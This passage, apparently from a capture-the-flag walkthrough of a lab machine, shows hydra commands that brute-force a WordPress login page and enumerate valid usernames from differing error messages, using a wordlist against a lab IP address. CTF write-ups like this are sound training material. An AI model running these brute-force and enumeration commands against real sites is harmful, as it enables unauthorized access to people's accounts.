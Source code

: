 Now with this data lets build our hydra command:

`hydra -L /root/fsocity.dic -P /root/fsocity.dic 10.10.104.6 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -V`

Ok, it sound like a great idea but...

![Untitled](images/Untitled%2028.png)

736567315225 possibilities is a large number. As the login form says “Invalid username” when trying to log in with wrong credentials... It would be possible that it shows a different message when trying to log with a correct username and incorrect password? That username would be in the dic downloaded? Let’s se...

`hydra -L /root/fsocity.dic -p wrongpassword 10.10.104.6 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -V`

![Untitled](images/Untitled%2029.png)

It worked. Let’s see what happens if we try to log in using the found username:

![Untitled](images/Untitled%2030.png)
